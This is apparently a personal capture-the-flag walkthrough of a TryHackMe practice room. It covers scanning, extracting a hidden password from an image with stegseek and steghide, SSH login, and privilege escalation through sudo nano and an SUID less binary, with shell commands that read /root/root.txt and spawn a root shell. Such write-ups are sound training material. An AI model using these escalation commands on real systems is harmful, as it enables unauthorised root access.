 #nano #less

https://tryhackme.com/r/room/brooklynninenine

---
#### Nmap
![[Screenshot_2024-05-26_20-25-24.png]]

There was a `note_to_jake.txt` on the ftp with the following note:
```text
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

The webpage contains a background image with a html comment saying "stenography"

So I used `stegseek` to crack the password and `steghide` to extract the `note.txt`:
```text
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

The ssh creds are `holt:fluffydog12@ninenine` and here I m in

The `sudo -l` gave me nano
```shell
CTRL+R
CTRL+X
cat /root/root.txt > /tmp/caca
```
That was my fast way to get the flag because I forgot how to do a shell

Here is the command for the shell:
```shell
reset; sh 1>&0 2>&0
```

The `less` binary has the SUID bit too, so ([Doc](https://yolospacehacker.com/hackersguide/toolbox.php?id=less))
```shell
less /root/root.txt
```



